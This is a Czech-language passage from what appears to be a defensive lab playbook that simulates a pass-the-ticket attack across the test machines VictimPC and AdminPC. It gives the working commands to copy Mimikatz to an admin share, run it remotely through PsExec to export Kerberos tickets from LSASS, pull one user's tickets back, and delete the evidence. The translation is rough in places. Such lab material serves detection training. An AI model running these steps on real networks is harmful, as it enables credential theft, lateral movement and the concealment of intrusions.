 Tady provedeme následující:

* Fáze Mimikatz na AdminPC
* Shromáždit hodnotná lístky na AdminPC
* Pass-the-Ticket se SamiraA

### <a name="pass-the-ticket"></a>Útok typu Pass-the-Ticket

Z příkazového řádku spuštěného v kontextu sady *RonHD* na **VictimPC**, přejděte k umístění našich běžných nástrojů útoku. Potom spusťte xcopy přesunete AdminPC tyto nástroje:

``` cmd
xcopy mimikatz.exe \\adminpc\c$\temp
```

Stisknutím klávesy ```d``` po zobrazení výzvy s informacemi o tom, že složka "temp" je adresář na AdminPC.

![Zkopírujte soubory do AdminPC](media/playbook-escalation-xcopy1.png)

### <a name="mimikatz-sekurlsatickets"></a>Nástroj Mimikatz sekurlsa::tickets

V rámci fázované na AdminPC nástroj Mimikatz využíváme PsExec vzdálené spuštění.

1. Procházení k umístění PsExec a spusťte následující příkaz:

   ``` cmd
   PsExec.exe \\AdminPC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "sekurlsa::tickets /export" "exit")
   ```

   Že příkaz spustí a exportovat lístky součástí LSASS.exe zpracování a umístit je do aktuálního adresáře na AdminPC.

2. Potřebujeme kopírování lístky přecházet do VictimPC z AdminPC. Od nás zajímá jenom na SamiraA lístky pro účely tohoto příkladu, spusťte následující příkaz:

   ``` cmd
   xcopy \\adminpc\c$\temp\*SamiraA* c:\temp\adminpc_tickets
   ```

   ![Export získaného přihlašovacích údajů z AdminPC zpět do VictimPC](media/playbook-escalation-export_tickets2.png)

3. Umožňuje vyčistit naše stopy AdminPC odstraněním našich souborů.

   ``` cmd
   rmdir \\adminpc\c$\temp /s /q
   ```

   > [!Note]
   > Složitější útočníci nebude touch disku, při spuštění libovolného kódu na počítači po získání oprávnění správce na něm.

   Na našem **VictimPC**, máme tyto lístky získaného v našich **c:\temp\adminpc_tickets** složky:

   ![C:\temp\tickets je naše exportované mimikatz výstup z AdminPC](media/playbook-escalation-export_tickets4.png)
